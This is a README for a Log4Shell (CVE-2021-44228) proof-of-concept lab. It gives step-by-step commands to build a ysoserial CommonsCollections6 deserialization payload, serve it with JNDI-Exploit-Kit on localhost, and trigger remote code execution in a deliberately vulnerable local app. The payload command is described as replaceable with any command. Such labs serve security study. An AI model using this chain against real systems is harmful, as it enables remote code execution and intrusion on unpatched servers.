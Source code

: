 ## Description
**Basic POC of log4j CVE-2021-44228 originally forked from [LiveOverflow/log4shell](https://github.com/LiveOverflow/log4shell)**

POC application that can be used to see how log4j vulnerability can be combined with Java deserialization vulnerability to obtain RCE even with an updated version on Java.

The application uses a vulnerable version of log4j 2 core and also imports Apache Commons Collections, I refer you [here](https://github.com/frohoff/ysoserial#description) for a really great summary on how "gadget chains" can be used to obtain unsafe deserialization of objects which ultimately leads to Remote Code Execution.

## How to build

To build the application you will need [`maven`](https://maven.apache.org/what-is-maven.html), after you have installed it just run `mvn package` and the compiled .jar will be inside a folder named *target*.

At any point you can play with the source code by updating *src/main/java/HelloLog.java* and then recompile the project to test things out.

## How to use it

Of course you are free to test the application however you want, I'll just show one simple way of doing it:

**NOTE: If you encounter problems try to change the default java version used by your system, in Ubuntu/Linux you can use `update-alternatives --config java`, for the following steps I'll be using java-8-openjdk to generate the ysoserial payload and then switch back to java-18-openjdk**

1. First we'll clone or download [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) and [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
2. Inside the ysoserial-modified folder we generate the serialized payload with the following command `java -jar target/ysoserial-modified.jar CommonsCollections6 bash 'mkdir /tmp/pwned' > payload.ser`. *mkidr /tmp/pwned* can be substituted with your own command
3. Move the generated *payload.ser* file inside the JNDI-Exploit-Kit folder
4. Inside the JNDI-Exploit-Kit folder we start the tool executing `java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 127.0.0.1:1389 -P payload.ser`. For a comprehensive documentation refer to the official repository
5. The vulnerable poc app is already set to call the custom payload end point generated by the jndi exploit kit so inside the vulnerable poc app folder you just need to execute `java -jar target/log4shell-1.0-SNAPSHOT.jar`
6. Now if you cd inside */tmp* you should find a folder named *pwned* or see the results of your custom command

## References
* [Zero-Day Exploit Targeting Popular Java Library Log4j](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
* [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228)
* [A JOURNEY FROM JNDI/LDAP
MANIPULATION TO REMOTE CODE
EXECUTION DREAM LAND](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [Serialization and deserialization in Java: explaining the Java deserialize vulnerability](https://snyk.io/blog/serialization-and-deserialization-in-java/)
* [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
* [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
